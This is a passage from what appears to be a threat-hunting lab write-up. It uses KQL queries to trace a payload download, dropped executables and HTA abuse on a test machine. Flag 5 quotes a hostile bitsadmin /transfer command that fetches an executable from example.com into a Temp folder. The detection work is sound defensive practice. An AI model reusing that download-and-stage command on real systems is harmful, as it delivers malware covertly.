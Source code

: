 DeviceProcessEvents
| where DeviceName == "michaelvm"
| where Timestamp > datetime(2025-06-16 02:18:14 AM) // After HTA abuse (Flag 7)
| where FileName =~ "bitsadmin.exe"
| where ProcessCommandLine contains "/transfer" and (ProcessCommandLine contains "http://" or ProcessCommandLine contains "https://") // Look for transfer commands with URLs
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by Timestamp asc // Find the earliest download attempt
| limit 1 // Get the first result

Identified Answer: "bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe

Why: This command explicitly shows bitsadmin.exe downloading an executable (crypto_toolkit.exe) from an external URL (example.com) to a temporary folder, representing a stealthy payload delivery.

Flag 6: Suspicious Payload Deployment
Objective: Identify dropped executable payloads that do not align with baseline software.

Thought Process: Payloads are typically dropped after initial access. We looked for new executable files (FileCreated) in suspicious locations (Temp, AppData) with names hinting at financial accounts.

KQL Query Used:

DeviceFileEvents
| where DeviceName == "michaelvm"
| where Timestamp > datetime(2025-06-16 01:59:57 AM) // After Flag 5 (bitsadmin download)
| where ActionType == "FileCreated"
| where FolderPath has_any ("Temp", "AppData\\Local", "ProgramData") // Common staging areas
| where FileName endswith ".exe" // Focus on executables
| where FileName has_any ("financial", "account", "book", "ledger", "sync", "market") // Keywords from hint and previous flags
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, SHA256
| order by Timestamp asc
| limit 1

Identified Answer: ledger_viewer.exe

Why: This executable was FileCreated in C:\Users\Mich34L_id\AppData\Local\Temp\ by powershell.exe at Jun 16, 2025 2:15:37 AM. Its name ledger_viewer.exe directly relates to financial accounts ("Book of financial accounts" hint) and its location/initiating process are highly suspicious for a new executable.

Flag 7: HTA Abuse via LOLBin
Objective: Detect execution of HTML Application (HTA) files using trusted Windows tools (mshta.exe).
